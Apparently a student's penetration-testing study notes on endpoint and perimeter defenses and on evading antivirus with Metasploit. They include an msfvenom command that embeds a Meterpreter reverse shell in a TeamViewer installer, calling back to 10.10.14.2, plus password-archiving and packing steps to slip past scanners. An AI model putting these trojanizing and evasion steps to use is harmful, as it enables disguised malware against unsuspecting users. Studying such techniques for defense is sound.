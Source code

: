 # Endpoint Protection
---
- `Endpoint protection` refers to **any localized device or service whose sole purpose is to protect a single host on the network.** 
- The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (`DMZ`).
- Endpoint protection usually **comes in the form of software packs** which include `Antivirus Protection`, `Antimalware Protection` (this includes bloatware, spyware, adware, scareware, ransomware), `Firewall`, and `Anti-DDOS` all in one, under the same software package.

# Perimeter Protection
---
- `Perimeter protection` usually comes in **physical or virtualized devices on the network perimeter edge.** 
- These `edge devices` themselves provide access `inside` of the network from the `outside`, in other terms, from `public` to `private`
- Between these two zones, on some occasions, we will also find a third one, **called the De-Militarized Zone (`DMZ`), which was mentioned previously**. 
- This is a ==`lower-security policy level` zone than the `inside networks'` one, but with a higher `trust level` than the `outside zone`, which is the vast Internet.==

# Security Policies
---
- Security policies are the drive behind every well-maintained security posture of any network. They function the same way as ACL (Access Control Lists) do for anyone familiar with the Cisco CCNA educational material.
- They are essentially **a list of `allow` and `deny` statements that dictate how traffic or files can exist within a network boundary**
- These lists can also target different features of the network and hosts, depending on where they reside:
	- Network Traffic Policies
	- Application Policies
	- User Access Control Policies
	- File Management Policies
	- DDoS Protection Policies
	- Others
- ![[Pasted image 20250628071845.png]]

# Evasion Techniques
---
- Most host-based anti-virus software nowadays relies **mainly on `Signature-based Detection` to identify aspects of malicious code** present in a software sample.
- These signatures are placed inside the Antivirus Engine, where **they are subsequently used to scan storage space and running processes** for any matches.
- The examples shown in the `Encoders` section show that simply encoding payloads using different encoding schemes with multiple iterations is not enough for all AV products.

- We are in luck because `msfvenom` **offers the option of using executable templates.** 
- This allows us to use **some pre-set templates for executable files, inject our payload into them, and use `any` executable as a platform from which we can launch our attack.**
- We can **embed the shellcode into any installer, package, or program that we have at hand,** hiding the payload shellcode **==deep within the legitimate code of the actual product==**

## To Something instead of nothing
---
- For the most part, when a target launches a backdoored executable, **nothing will appear to happen, which can raise suspicions in some cases.**
- To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application.
- We do so with the `-k` flag:
	- `msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5`
		- `-i` => **Number of times to encode**
		  
- However, even with the `-k` flag running, t**he target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment.**
- A **separate window will pop up with the payload,** which will **not close until we finish running the payload session interaction on the target.**

## Archives
---
- Archiving a piece of information such as a file, folder, script, executable, picture, or document and **placing a password on the archive bypasses a lot of common anti-virus signatures today.**
- However, the downside of this process is that they will be raised as **notifications in the AV alarm dashboard** as being unable to be scanned due to being **locked with a password.**

	- `msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5`

- Archiving twice:
	- `rar a ~/test.rar -p ~/test.js`
		- ![[Pasted image 20250628072648.png]]
	- Removing the .RAR Extension:
		- `mv test.rar test`
	- Archiving the Payload Again
		- `rar a test2.rar -p test`
	- Removing the .RAR Extension:
		- `mv test2.rar test2`
		- ![[Pasted image 20250628072803.png]]

# Packers
---
- The term `Packer` refers to the result of an `executable compression` process **where the payload is packed together with an executable program and with the decompression code in one single file.**
- When run, the **decompression code returns the backdoored executable to its original state**, allowing for yet another layer of protection against file scanning mechanisms on target hosts.
- In addition, **msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.**

![[Pasted image 20250628072932.png]]

# Exploit Coding
---
- When coding our exploit or porting a pre-existing one over to the Framework, it is **good to ensure that the exploit code is not easily identifiable by security measures** implemented on the target system.
- For example, a typical `Buffer Overflow` exploit might be easily distinguished from regular traffic traveling over the network due to its hexadecimal buffer patterns.
- When assembling our exploit code, **==randomization can help add some variation to those patterns, which will break the IPS / IDS database signatures==** for well-known exploit buffers.